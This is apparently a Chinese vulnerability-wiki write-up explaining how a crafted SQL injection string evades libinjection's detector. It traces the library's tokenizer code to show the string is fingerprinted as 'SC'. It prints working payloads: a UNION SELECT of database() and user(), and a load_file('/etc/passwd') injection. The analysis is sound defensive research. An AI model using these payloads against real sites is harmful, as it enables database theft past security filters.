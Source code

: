 Libinjection 语义分析通用绕过
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

源码下载地址 `https://github.com/client9/libinjection`

> example.c

    #include <stdio.h>
    #include <strings.h>
    #include <errno.h>
    #include "libinjection.h"
    #include "libinjection_sqli.h"

    int main(int argc, const char* argv[])
    {
        struct libinjection_sqli_state state;
        int issqli;

        const char* input = argv[1];
        size_t slen = strlen(input);

        /* in real-world, you would url-decode the input, etc */

        libinjection_sqli_init(&state, input, slen, FLAG_NONE);
        issqli = libinjection_is_sqli(&state);
        if (issqli) {
            fprintf(stderr, "sqli detected with fingerprint of '%s'\n", state.fingerprint);
        }
        return issqli;
    }
    $ gcc -Wall -Wextra examples.c libinjection_sqli.c
    $ ./a.out "-1' and 1=1 union/* foo */select load_file('/etc/passwd')--"
    sqli detected with fingerprint of 's&1UE'

**首先给一个pyload**

    # ./bin "ad1n'-- %a%0aunion select 1,database(),user() -- " 
    not sqli 
    #

测试payload 是否OK

![1.png](/Users/aresx/Documents/VulWiki/.resource/Libinjection语义分析通用绕过/media/rId24.png)

为什么会这样呢???

首先打开源码吧

如果对这个语义分析不太了解的吧，可以去百度上可以找到很多分析的文章这里就不过多阐述了

下图是一个运行的一个流程图

![2.png](/Users/aresx/Documents/VulWiki/.resource/Libinjection语义分析通用绕过/media/rId25.png)

### 它内部分为四种模式

    1. 无符号 标准SQL 模式 
    2. 无符号 MySQL模式 
    3. 单引号 标准SQL 模式 
    4. 单引号 MySQL 模式 
    5. 双引号 MySQL 模式

然后上面是一个单引号的标准SQL 的匹配他的一个核心点在于如下 函数libinjection\_sqli\_tokenize
作为一个转换内部字符的一个入口

    int libinjection_sqli_tokenize(struct libinjection_sqli_state * sf)
    {
        pt2Function fnptr;
        size_t *pos = &sf->pos;
        stoken_t *current = sf->current;
        const char *s = sf->s;
        const size_t slen = sf->slen;
        if (slen == 0) {
            return FALSE;
        }
    ​
        //初始化
        st_clear(current);
        sf->current = current;
    ​
        if (*pos == 0 && (sf->flags & (FLAG_QUOTE_SINGLE | FLAG_QUOTE_DOUBLE))) {
            *pos = parse_string_core(s, slen, 0, current, flag2delim(sf->flags), 0);
            printf("单引号双引号进入");
            sf->stats_tokens += 1;
            return TRUE;
        }
    ​
        while (*pos < slen) {
    ​
            /*
             * get current character
             */
            const unsigned char ch = (unsigned char) (s[*pos]);
            /*
             * look up the parser, and call it
             *
             * Porting Note: this is mapping of char to function
             *   charparsers[ch]()
             */
            fnptr = char_parse_map[ch];
            *pos = (*fnptr) (sf);
            if (current->type != CHAR_NULL) {
                sf->stats_tokens += 1;
                return TRUE;
            }
        }
        return FALSE;
    }

为什么`# "ad1n'-- %a%0aunion select 1,database(),user() -- "`
这么一个简单的可以绕过呢。

首先他是吧 `admi'` 先进入无符号的标准SQL 然后发现有一个\' 后面就转到
单引号的标准SQL

单引号标准SQL 首先获取的`admn'` 然后break

继续到了下一层碰到了一个 - 那么走到parse\_dash函数中

    static size_t parse_dash(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
    ​
        if (pos + 2 < slen && cs[pos + 1] == '-' && char_is_white(cs[pos+2]) ) {
            return parse_eol_comment(sf);
        } else if (pos +2 == slen && cs[pos + 1] == '-') {
            return parse_eol_comment(sf);
        } else if (pos + 1 < slen && cs[pos + 1] == '-' && (sf->flags & FLAG_SQL_ANSI)) {
            sf->stats_comment_ddx += 1;
            return parse_eol_comment(sf);
        } else {
            st_assign_char(sf->current, TYPE_OPERATOR, pos, 1, '-');
            return pos + 1;
        }
    }

然后当前的pos 一定是符合第一个判断条件的。继续跟踪parse\_eol\_comment
函数

    static size_t parse_eol_comment(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
        
        const char *endpos =(const char *) memchr((const void *) (cs + pos), '\n', slen - pos);
        if (endpos == NULL) {
            st_assign(sf->current, TYPE_COMMENT, pos, slen - pos, cs + pos);
            return slen;
        } else {
            st_assign(sf->current, TYPE_COMMENT, pos, (size_t)(endpos - cs) - pos, cs + pos);
            return (size_t)((endpos - cs) + 1);
        }
    }

这里只是判断了是否是有\\n 这个。然后就直接进入到st\_assign
函数中。继续跟踪st\_assign 函数

    static void st_assign(stoken_t * st, const char stype,size_t pos, size_t len, const char* value)
    {
        const size_t MSIZE = LIBINJECTION_SQLI_TOKEN_SIZE;
        size_t last = len < MSIZE ? len : (MSIZE - 1);
        st->type = (char) stype;
        st->pos = pos;
        st->len = last;
        memcpy(st->val, value, last);
        st->val[last] = CHAR_NULL;
    }

当前函数也是只是赋值了一下val然后就可以做任何操作。

最后就是 `admin'` 转换成了S

\-- 因为没有查询到直接是C

最后得到的匹配规则为SC 。此匹配规则不在数据库中。完成了绕过。

附一张调试打印图

![3.png](/Users/aresx/Documents/VulWiki/.resource/Libinjection语义分析通用绕过/media/rId27.png)
